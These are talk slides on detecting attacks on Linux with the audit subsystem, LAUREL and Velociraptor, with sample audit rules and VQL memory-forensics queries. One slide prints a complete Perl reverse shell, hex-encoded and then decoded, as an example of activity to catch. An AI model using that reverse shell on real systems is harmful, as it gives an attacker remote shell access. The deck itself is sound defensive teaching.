# Detection and Response for Linux without EDR

Hilko Bengen

2024-12-07

# Some Conventional Wisdom

Opinions to pick from

- (Some) Linux enthusiasts: "Linux is inherently secure enough. Leave me alone!"
- (Some) Enterprise security enthusiasts: "Linux lacks observability. Can't work like this!"
- Red team: "LOL, it's always so easy to persist on Unix systems."
- Blue team: "Oh my, on Windows, there's at least Sysmon."

# System Logs

- e.g. `/var/log/messages`, `/var/log/auth.log`
- Easy to collect
- The usual suspects: `sudo`, `ssh`, `cron`, etc.
- Need context to detect anything
- Not sufficient for catching attackers

# Beyond Syslog

- Want to detect unusual, suspicious behavior, e.g.:
  - Webshells
  - Reverse shells
  - Reconnaissance
  - "fileless" implants injected into processes
  - BPF seems interesing for attackers
- Need better telemetry!
  - Program executions
  - File watches
  - Special case syscalls

# Linux Audit Subsystem

- Good for logging:
  - Program execution
  - File operations
  - Syscalls
  - SELinux, AppArmor events
- Stable, boring technology!
  - In kernel since mid-2000s
  - Basic format is well documented
  - Semantics are well understood

# Linux Audit Subsystem

[figure not shown]

# Linux Audit Subsystem, LOL

```bash
type=SYSCALL msg=audit(1626611363.720:348501): …
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl"
  a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24
  703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545
  245414D2C67657470726F746F62796E616D6528227463702229293B69662863
  6F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746
  F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E
  285354444F55542C223E265322293B6F70656E285354444552522C223E26532
  2293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): …
```

- Parsing is hard for SIEM software
- Few filtering options

# Linux Audit Subsystem, LOL

So, what is this `EXECVE.a2`?

```perl
use Socket; $i="10.0.0.1"; $p=1234;
socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if (connect(S, sockaddr_in($p, inet_aton($i)))) {
open(STDIN, ">&S"); open(STDOUT, ">&S"); open(STDERR, ">&S");
exec("/bin/sh -i"); };
```

# Our solution

[figure not shown]

"Linux Audit – Usable, Robust, Easy Logging"

- *auditd* plugin: Parse audit log, write JSON
- Enrichment, process tracking and labelling
- Filtering capabilities
- https://github.com/threathunters-io/laurel, GPLv3

# Our solution

[figure not shown]

# EDR? On Linux? Interesting.

- "Our work so far has been basic, common sense"
- "Let's see if we can do better with an off-the-shelf product"

# Made for Windows.

- "`CreateProcess`. What is `fork`, `exec`?"
- "`root` = 'S-1-5-18'. Everybody knows that"
- "What's a numeric user ID?"
- "What are groups?"
- "Filenames are all valid Unicode. Right?"

# Response and Hunting

- Get context for alerts
- simple tasks
  - inspect files
  - `ps`
  - `netstat`
- Use YARA rules to hunt for specific files
- Find process anomalies
- Running custom tools would be great!

# Velociraptor

[figure not shown]

- "digital forensic and incident response tool"
- *Velociraptor Query Language*
- Some assembly required
- Excellent support
- https://docs.velociraptor.app, AGPLv3

# Support infrastructure

- Diagnosis scripts to check for misconfiguration
  - Simplify support cases
- RPM+DEB packages
  - Reduce mistakes made in installation

# Example: Audit config manipulation

Watch for file write operations and label them

```bash
-w /etc/group           -p wa -k wr_etc_main
-w /etc/passwd          -p wa -k wr_etc_main
-w /etc/shadow          -p wa -k wr_etc_main
-w /etc/pam.conf        -p wa -k wr_etc_main
-w /etc/pam.d/          -p wa -k wr_etc_main
-w /etc/ssh/sshd_config -p wa -k wr_etc_main

-w /etc/sudoers         -p wa -k wr_sudo
-w /etc/sudoers.d       -p wa -k wr_sudo
```

Also for:

`cron/at` – `systemd` – `ld.so` – SELinux/Apparmor – Kernel modules – `auditd/laurel` – etc.

# Example: Audit program execution

Watch for program execution. LAUREL can use key as label that is inheried by child processes.

```bash
-w /usr/sbin/sshd -p x -k sshd

-w /usr/bin/rpm     -p x -k pkg_mgmt
-w /usr/bin/dnf     -p x -k pkg_mgmt
-w /usr/bin/dpkg    -p x -k pkg_mgmt
-w /usr/bin/apt-get -p x -k pkg_mgmt
# […]

-w /usr/bin/containerd -p x -k container
-w /usr/bin/podman     -p x -k container
-w /usr/bin/runc       -p x -k container
# […]
```

Also for:

web servers – `cron` / `at` – etc.

# Example: Audit for specific syscalls

Idea: Allowlist specific processes for ptrace, syscall activity

`ptrace(2)` – but not `PEEK`, `POKE`, `CONT`

```bash
-a never,exit -F arch=b32 -S ptrace -F a0>=1 -F a0<=7
-a never,exit -F arch=b64 -S ptrace -F a0>=1 -F a0<=7
-a always,exit -F arch=b32 -S ptrace
-a always,exit -F arch=b64 -S ptrace
```

`bpf(2)` – but not `BPF_MAP_LOOKUP_ELEM` etc.

```bash
-a never,exit -F arch=b32 -S bpf -F a0>=1 -F a0<=4
-a never,exit -F arch=b64 -S bpf -F a0>=1 -F a0<=4
-a never,exit -F arch=b32 -S bpf -F a0>=0xb -F a0<=0xf
-a never,exit -F arch=b64 -S bpf -F a0>=0xb -F a0<=0xf
-a never,exit -F arch=b32 -S bpf -F a0=0x13
-a never,exit -F arch=b64 -S bpf -F a0=0x13
-a always,exit -F arch=b32 -S bpf -F success=1
-a always,exit -F arch=b64 -S bpf -F success=1
```

# Example: Audit Kernel module manipulation

```bash
-a always,exit -F arch=b32 -S init_module,finit_module,delete_module \
   -k module
-a always,exit -F arch=b64 -S init_module,finit_module,delete_module \
   -k module
```

```bash
-w /etc/modprobe.conf -p wa -k wr_modules
-w /etc/modprobe.d/   -p wa -k wr_modules
-w /lib/modules/      -p wa -k wr_modules
```

# Example: Audit raw disk access

```bash
-a always,exit -F arch=b32 -S open,openat,openat2
   -F filetype=block -F perm=wa -F success=1 -k raw_write
-a always,exit -F arch=b64 -S open,openat,openat2
   -F filetype=block -F perm=wa -F success=1 -k raw_write
-a always,exit -F arch=b32 -S open,openat,openat2
   -F filetype=block -F perm=r -F success=1 -k raw_read
-a always,exit -F arch=b64 -S open,openat,openat2
   -F filetype=block -F perm=r -F success=1 -k raw_read
```

# Example: Find patched processes using VQL

Privileged attackers can write to `/proc/$PID/mem`, bypassing individual page permissions. But this leaves some traces.

- Inspect executable mappings from `/proc/$PID/maps`
- Find modified (present but not file-backed) pages using `/proc/$PID/pagemap`

# Example: Find patched processes using VQL

Parse `/proc/$PID/maps`:

```
55c17294f000-55c172954000 r--p 00000000 fd:01 395639 /usr/sbin/auditd
55c172954000-55c17296a000 r-xp 00005000 fd:01 395639 /usr/sbin/auditd
55c17296a000-55c172973000 r--p 0001b000 fd:01 395639 /usr/sbin/auditd
...
```

```sql
LET maps_regex <=
    '''^(?P<Start>[0-9a-f]+)-(?P<End>[0-9a-f]+)''' +
    '''\s+(?P<Perm>[a-z-]{4})''' +
    '''\s+(?P<Offset>[0-9a-f]+)''' +
    '''\s+(?P<DevMajor>[0-9a-f])+:(?P<DevMinor>[0-9a-f]+)''' +
    '''\s+(?P<Inode>\d+)''' +
    '''\s+(?P<Filename>.*?)''' +
    '''(?P<Deleted> \(deleted\))?$'''
```

# Example: Find patched processes using VQL

Parse `/proc/$PID/maps:`

```sql
LET get_maps(pid) =
    SELECT
        atoi(string="0x" + Record.Start) AS Start,
        atoi(string="0x" + Record.End) AS End,
        Record.Perm AS Perm,
        Record.Filename AS Filename
    FROM foreach(
        row = { SELECT * FROM parse_lines(
                    filename=format(format="/proc/%d/maps", args=pid) ) },
        query = { SELECT parse_string_with_regex(
                    regex=maps_regex, string=Line) AS Record
                  FROM scope() }
    )
```

# Example: Find patched processes using VQL

Parse `/proc/$PID/pagemap`:

```sql
LET PAGESIZE <= 4096 -- may dffer on !x86
LET pagemap_template(start_address, end_address) =
    format(
        format='''[
        ["pagemap", 0, [
               ["PFN", %[1]d, Array, {
                   type: "uint64",
                   count: %[2]d,
                   max_count: %[2]d,
               }],
           ]]]''',
        args=[ int( int=8 * start_address / PAGESIZE ),
               int( int=(end_address-start_address) / PAGESIZE ) ] )
```

# Example: Find patched processes using VQL

Get PFNs for executable mappings

```sql
LET get_pfns(pid) =
    SELECT BaseAddress, PageMap
    FROM foreach(
        row = {  SELECT Start, End FROM get_maps(pid=pid)
            WHERE Perm =~ "x" AND Filename =~ "^/"
            AND NOT Filename =~ "^/memfd:" },
        query = { SELECT Start AS BaseAddress,
            parse_binary( filename=format(format="/proc/%d/pagemap",
                args=pid),
                profile=pagemap_template( start_address=Start,
                                          end_address=End ),
                struct="pagemap" ).PFN AS PageMap
            FROM scope() }
    )
```

# Example: Find patched processes using VQL

```sql
LET modified_executable_pages(pid) =
    SELECT Page AS TaintedPage
    FROM foreach(
      row = get_pfns(pid=pid),
      uery={
        SELECT format(format="%012x", args=[BaseAddress + PAGESIZE * _key])
               AS Page,
               format(format="%064b", args=[_value._value])
               AS mapping
        FROM items(item={SELECT * FROM foreach(row=PageMap)}) })
    WHERE mapping =~ "^1.0"
    -- bit 63 (present) = 1
    -- bit 61 (file-backed) = 0
```

# Example: Find patched processes using VQL

Tying it all together

```sql
LET process_exe_regex = "^/"
SELECT *
FROM foreach(
    row={SELECT Pid, Exe FROM pslist() WHERE Exe =~ process_exe_regex},
    query={
        SELECT
            Exe,
            array(a=modified_executable_pages( pid=Pid ).TaintedPage )
        AS TaintedPages
        FROM scope()
        WHERE len(list=TaintedPages) > 0
    })
```

| Pid | Exe | TaintedPages |
| --- | --- | --- |
| 1238941 | /usr/sbin/auditd | [ 55c172969000 ] |

# Conclusion

- The state of securitng Linux systems enterprise environment **can** be improved
- Commercial Vendors seem to be surprisingly bad at this.
- You can get surprisingly far using built-in facilities and free/open-source software, and some common sense

# Contact info



Hilko Bengen <bengen@hilluzination.de>

| https://github.com/hillu | @hillu@infosec.exchange |
| --- | --- |

Slides are available online:

[figure not shown]